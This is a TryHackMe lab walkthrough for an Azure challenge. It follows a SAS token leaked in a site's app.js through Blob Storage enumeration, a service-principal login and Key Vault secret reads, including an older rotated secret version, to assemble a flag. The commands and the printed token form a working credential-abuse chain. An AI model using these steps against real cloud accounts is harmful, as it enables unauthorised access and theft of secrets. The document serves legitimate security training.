# CryptoCabana TryHackMe walkthrough

---



**Day 9** goes cloud. We’ll follow a leaked Azure token from a sloppy storage bucket all the way to a Key Vault full of secrets, and piece together the flag hiding inside.

## Step 1: Download all the files and inspect


```bash
wget \
  
--mirror
 \
  
--convert-links
 \
  
--page-requisites
 \
  https://cryptocabanaf5scjagc.z13.web.core.windows.net/
```




Let’s see what is inside:


```lua
find . -type f
```


The output will be pretty long, but the most interesting fiels are index.html and app.js.



Let’s cat them both. Index.html is clean — nothing interesting. Let’s inspect app.js and search for interesting strings


```bash
grep -niE "https|azure|vault|storage|blob|token|login|api|client|tenant|secret|key|sas|fetch|xmlhttprequest" cryptocabanaf5scjagc.z13.web.core.windows.net/app.js
```




We found the first vulnerability — STORAGE\_ACCOUNT and BACKUP\_SAS. These values are credentials.

**STORAGE\_ACCOUNT** tells you which Azure Storage account the application is using. **BACKUP\_SAS** is a Shared Access Signature (SAS) token, which grants delegated access to Azure Storage resources without requiring the storage account key.

## Step 2: Enumerate the storage account

Set the leaked values as shell variables (strip the leading `?` from the SAS):


```bash
STORAGE_ACCOUNT=
"cryptocabanaf5scjagc"
SAS=
"sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D"
curl -s 
"https://
${STORAGE_ACCOUNT}
.blob.core.windows.net/?comp=list&
${SAS}
"
```




List containers in the account using the Azure Blob REST API:


```bash
curl -s "https://${STORAGE_ACCOUNT}.blob.core.windows.net/?comp=list&${SAS}" | xmllint --format -
```


The output is pretty long, but we can see that there are three containers: $web (the site itself), backups, and vault.

List blobs in each interesting container:


```bash
curl -s 
"https://
${STORAGE_ACCOUNT}
.blob.core.windows.net/backups?restype=container&comp=list&
${SAS}
"
 | xmllint --
format
 -
curl -s 
"https://
${STORAGE_ACCOUNT}
.blob.core.windows.net/vault?restype=container&comp=list&
${SAS}
"
 | xmllint --
format
 -
```


Backups is empty. Vault contains two blobs:

- backup-service-account.json
- seed\_phrase.txt





## Step 3: Download and inspect the vault blobs


```bash
curl -s 
"https://
${STORAGE_ACCOUNT}
.blob.core.windows.net/vault/backup-service-account.json?
${SAS}
"
 -o backup-service-account.json
cat
 backup-service-account.json
```

```bash
curl -s 
"https://
${STORAGE_ACCOUNT}
.blob.core.windows.net/vault/seed_phrase.txt?
${SAS}
"
 -o seed_phrase.txt
cat
 seed_phrase.txt
```




backup-service-account.json turns out to be a full Azure service principal — client\_id, client\_secret, tenant\_id, plus the name and URI of a Key Vault:


```json
{
  
"client_id"
:
 
"dbcf2923-e4eb-4b72-a0a4-688aa1185cf5"
,
  
"client_secret"
:
 
"REDACTED"
,
  
"key_vault_name"
:
 
"ccabana-kv-f5scjagc"
,
  
"key_vault_uri"
:
 
"https://ccabana-kv-f5scjagc.vault.azure.net/"
,
  
"note"
:
 
"CryptoCabana backup automation account. Rotate this if it ever leaves the vault. -- IT"
,
  
"tenant_id"
:
 
"8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c"
}
```


The note is basically IT admitting this account shouldn’t be sitting here. Seed\_phrase.txt looks suspicious too:


```rust
velvet cabana rebuild scatter obvious wallet drift lagoon punchline receipt orbit shrimp
```


Honestly, I couldn’t figure out what it meant and just dropped it.

## Step 4: Authenticate as the leaked service principal


```lua
az login 
--service-principal \
  -u 
"dbcf2923-e4eb-4b72-a0a4-688aa1185cf5"
 \
  -p 
'REDACTED_secret'
 \
  
--tenant "8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c"
```




This drops us into the Az-Subs-CTF subscription, authenticated as the service principal itself.

## Step 5: Enumerate the Key Vault


```text
az keyvault secret list --vault-name "ccabana-kv-f5scjagc" -o table
```


Four secrets show up: `key-shard-1`, `key-shard-2`, `key-shard-3`, and `master-key` — the last one disabled. The naming makes the plan obvious: the three shards are meant to be pulled and stitched together.




```graphql
az keyvault secret show --vault-name 
"ccabana-kv-f5scjagc"
 --name 
"key-shard-1"
 --
query
 
"value"
 -o tsv
az keyvault secret show --vault-name 
"ccabana-kv-f5scjagc"
 --name 
"key-shard-2"
 --
query
 
"value"
 -o tsv
az keyvault secret show --vault-name 
"ccabana-kv-f5scjagc"
 --name 
"key-shard-3"
 --
query
 
"value"
 -o tsv
```


`key-shard-1` gives us `THM{n0t_ur` and `key-shard-3` gives us `ur_c01ns!}` — but `key-shard-2` returns a note instead of a fragment:

> *"Rotated this after IT flagged it -- old value should still be recoverable if you know where to look."*



## Step 6: Recover the rotated secret

Azure Key Vault doesn’t actually delete old secret values when you “rotate” them — it just marks a new version as current and keeps the old one around in the background. So the pre-rotation value is still there, we just have to ask for it by version.


```bash
az keyvault secret list-versions --vault-name "ccabana-kv-f5scjagc" --name "key-shard-2" -o json
```


Two versions come back a couple seconds apart. Grab the older one:




```graphql
az keyvault secret show \
  --vault-name 
"ccabana-kv-f5scjagc"
 \
  --name 
"key-shard-2"
 \
  --version 
"3d6492d2c6f74123bc754a9ded22b2a0"
 \
  --
query
 
"value"
 -o tsv
```


That returns `_k3ys_n0t_` — the missing middle piece.



Now just assemble the flag: THM{n0t\_ur\_k3ys\_n0t\_ur\_c01ns!}

Missed the previous challenges? You can find the solutions for [**Day 1**](day-01-the-concierge-knows-too-much-tryhackme-walkthrough.md) , [**Day 2**](day-02-room-404-tryhackme-walkthrough.md), [**Day 3**](day-03-complimentary-tryhackme-walkthrough.md), [**Day 4**](day-04-packed-light-tryhackme-walkthrough.md), [**Day 5**](day-05-beach-bar-tryhackme-walkthrough.md)**,** [**Day 6**](day-06-overheard-at-breakfast-tryhackme-walkthrough.md), [**Day 7**](day-07-do-not-disturb-tryhackme-walkthrough.md) **and** [**Day 8**](day-08-towel-on-the-sunbed-tryhackme-walkthrough.md)

